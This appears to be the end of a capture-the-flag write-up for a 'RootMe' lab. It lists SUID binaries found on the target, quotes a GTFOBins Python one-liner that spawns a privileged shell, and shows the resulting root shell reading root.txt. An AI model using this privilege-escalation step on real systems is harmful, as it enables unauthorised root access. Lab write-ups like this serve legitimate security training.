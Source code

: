 ```
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

After checking GTFOBins, we get a handy piece of code:
`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
Which when ran, gets us root! And we can easy grab the root.txt
```
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
```

![[RootMeCongrats.png]]

